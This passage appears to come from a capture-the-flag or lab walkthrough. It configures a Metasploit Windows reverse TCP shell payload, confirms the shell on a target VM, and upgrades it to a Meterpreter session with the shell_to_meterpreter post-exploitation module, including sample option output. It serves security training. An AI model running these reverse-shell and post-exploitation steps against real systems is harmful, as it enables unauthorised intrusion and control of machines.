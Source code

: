 **Explanation:**  
- `payload windows/x64/shell/reverse_tcp`: This sets the payload that will establish a reverse TCP shell from the target to the attacker's machine.
- `LPORT 4445`: Specifies the local port to listen on for the reverse shell connection.

### Q5. Confirm the exploit's success

#### Action

After running the exploit, confirm that it has executed successfully. You may need to press enter for the shell to appear. If successful, you'll have a shell on the target system, and you can background it with `CTRL + Z`.

**Explanation:**  
Gaining a shell indicates that you've successfully exploited the vulnerability, giving you control over the target machine. If the exploit fails, you may need to reboot the target VM and try again.

## Escalate

Once you've gained initial access to the target system, the next step is to escalate privileges to gain more control. Often, the initial shell is limited in capabilities, so converting it to a Meterpreter shell is a common approach.

### Q1. Background the shell and convert it to a Meterpreter shell

If you haven't already done so, background the shell you gained previously by pressing `CTRL + Z`. Next, you'll need to research how to convert a regular shell into a Meterpreter shell within Metasploit. The module you'll use is a post-exploitation module specifically designed for this purpose.

#### Action

The module you'll use is:

```bash
post/multi/manage/shell_to_meterpreter
```

**Explanation:**  
This module allows you to upgrade a simple shell to a Meterpreter session, which provides more robust features for interacting with the target system.

### Q2. Select the module and configure the options

Once you have identified the module, you need to select it and configure the required options. 

```bash
msf5 > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > show options
```

**Sample Output:**

```
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```
